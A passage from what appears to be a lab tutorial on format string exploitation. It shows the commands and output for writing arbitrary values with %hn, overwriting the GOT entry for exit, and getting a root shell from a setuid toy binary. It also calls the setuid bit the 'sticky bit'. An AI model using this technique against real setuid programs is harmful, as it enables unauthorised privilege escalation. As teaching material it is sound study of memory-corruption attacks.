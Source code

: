 So our addresses are located at the 7th and 8th position. We replace `p` with `hn` and as expected we get a seg fault - the addresses`0x44444444` and `0x45454545` are not ours.

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "DDDDEEEE" + "%00000x%7$hn%00000x%8$hn"')
Segmentation fault (core dumped)
~~~

We use `var`'s address instead:

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "\x1c\xdb\xff\xff\x1e\xdb\xff\xff" + "%00000x%7$hn%00000x%8$hn"')
▒▒ffffdd1ef7ffcf1c
var = 0x00180010 and is located at 0xffffdb1c
~~~

Okay - getting there. We know that by the time we get to the first `hn` we would have already written 8 bytes - so we want to write an additional `0xdd5a - 8` for the first part and `0xffff - 0xdd5a` for the second:

~~~ shell
(gdb) p 0xdd5a - 8
$42 = 56658
(gdb) p 0xffff - 0xdd5a
$43 = 8869
~~~

And we see that it does work:

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "\x1c\xdb\xff\xff\x1e\xdb\xff\xff" + "%56658x%7$hn%08869x%8$hn"')
var = 0xffffdd5a and is located at 0xffffdb1c
~~~

Now instead of writing this to `var`'s address, we need something useful. There's no point printing our shellcode to screen. Simliar to a buffer overflow we want to override something exectuable - and it turns out there's just the thing. Our binary calls a number of functions defined in `libc`. In our case we call `exit` at the end. We can see where the address for that function gets loaded - and by overwriting that with the address of our shellcode, we can get this executed instead:

~~~ shell
vagrant@vagrant:~/scratch$ objdump -R a.out | grep exit
0804a014 R_386_JUMP_SLOT   exit@GLIBC_2.0
~~~

Assuming our executable was owned by root and had the sticky bit set, we'd get an escalated shell:

~~~ shell
vagrant@vagrant:~/scratch$ sudo chown root a.out
vagrant@vagrant:~/scratch$ sudo chmod u+s a.out
vagrant@vagrant:~/scratch$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "\x14\xa0\x04\x08\x16\xa0\x04\x08" + "%56658x%7$hn%08869x%8$hn"')
...
var = 0xaaaaaaaa and is located at 0xffffdb1c
# id
uid=0(root) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
~~~
